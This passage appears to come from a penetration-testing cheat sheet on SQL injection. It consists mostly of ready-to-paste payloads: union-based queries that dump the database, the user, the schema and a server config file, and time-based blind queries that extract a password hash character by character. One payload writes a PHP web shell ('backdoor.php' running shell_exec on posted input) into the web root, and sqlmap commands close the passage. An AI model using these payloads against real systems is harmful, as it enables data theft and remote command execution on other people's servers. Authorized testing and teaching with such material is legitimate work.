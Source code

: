 ```fundamental
' UNION SELECT 1, 2, 3, 4-- 

' UNION SELECT 1, concat_ws(' | ', database(), current_user(), version()), 3, 4-- 

' UNION SELECT 1, concat_ws(' | ', table_schema, table_name, column_name, data_type, character_maximum_length), 3, 4 FROM information_schema.columns-- 

' UNION SELECT 1, load_file('..\\..\\apache\\conf\\httpd.conf'), 3, 4-- 
```

Use the union-based SQLi only when you are able to use the same communication channel to both launch the attack and gather results.

The goal is to determine the exact number of columns in the application query and to figure out which of them are displaying to the user.

Time-based SQLi:

```fundamental
' AND (SELECT 1 FROM (SELECT sleep(2)) test)-- 

' AND (SELECT 1 FROM (SELECT CASE current_user() WHEN 'root@localhost' THEN sleep(2) ELSE sleep(0) END) test)-- 

' AND (SELECT 1 FROM (SELECT CASE substring(current_user(), 1, 1) WHEN 'r' THEN sleep(2) ELSE sleep(0) END) test)-- 

' AND (SELECT CASE substring(password, 1, 1) WHEN '$' THEN sleep(2) ELSE sleep(0) END FROM schema.users WHERE id = 1)-- 
```

Use the time-based SQLi when you are not able to see the results.

Inject a simple web shell:

```fundamental
' UNION SELECT '', '', '', '<form method="post" action="./backdoor.php"><input name="command" type="text" value="<?php if (isset($_POST["command"])) { echo $_POST["command"]; } ?>" placeholder="Command"></form><?php if (isset($_POST["command"])) { echo "<pre>"; $results = htmlentities(shell_exec($_POST["command"]), ENT_QUOTES, 'UTF-8'); echo $results ? $results : "Cannot display raw data"; echo "</pre>"; } ?>' INTO DUMPFILE '..\\..\\htdocs\\backdoor.php'-- 
```

To successfully inject a web shell, the database user must have a write permission.

**Always make sure to properly close the surrounding code.**

<p id="sqlmap"/>

### sqlmap

Inject SQL code into request parameters:

```fundamental
sqlmap -a -u somesite.com/index.php?username=test&password=test

sqlmap -a -u somesite.com/index.php --data username=test&password=test
```
